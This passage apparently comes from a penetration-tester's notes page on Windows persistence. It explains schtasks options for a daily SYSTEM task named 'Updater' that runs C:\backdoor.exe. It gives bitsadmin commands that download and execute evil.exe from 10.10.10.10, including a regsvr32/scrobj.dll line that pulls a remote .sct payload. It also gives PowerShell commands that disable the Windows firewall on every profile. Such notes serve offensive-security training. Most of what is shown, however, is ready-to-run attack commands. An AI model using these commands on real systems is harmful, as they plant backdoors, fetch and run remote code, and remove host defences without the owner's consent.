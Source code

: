 * `/Create` – creates a new task 
* `/F` - forcefully creates the task and suppresses warnings if the task exists 
* `/RU` - Specifies the user context under which the task runs - System 
* `/SC` – Frequency of schedule – Daily 
* `/ST` – Time the task starts – 10:51 
* `/TN` – Name of the task – Updater 
* `/TR` – Path and filename of the executable to run - C:\backdoor.exe
{% endtab %}
{% endtabs %}

### BITS Jobs

add powershell version

```text
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://10.10.10.10/evil.exe"  "C:\tmp\evil.exe"

# v1
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\evil.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor

# v2 - exploit/multi/script/web_delivery
bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/s /n /u /i:http://10.10.10.10:8080/FHXSd9.sct scrobj.dll"
bitsadmin /resume backdoor
```

### Windows Services

May need some privileges for Windows services...

## As an Elevated-Privilege User

All commands below this header require some sort of elevated account privileges.  As I discover them, I will add which specific Windows privileges are required.  

### Windows Firewall

#### Disabling Windows Firewall

{% tabs %}
{% tab title="PowerShell" %}
To view the state and settings of all Windows firewall profiles \(this output is not as pretty as the `netsh` command from cmd.exe, but can be manipulated like any PowerShell object\):

```text
Get-NetFirewallProfile
```

To disable the Windows firewall for all network profiles:

```text
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```
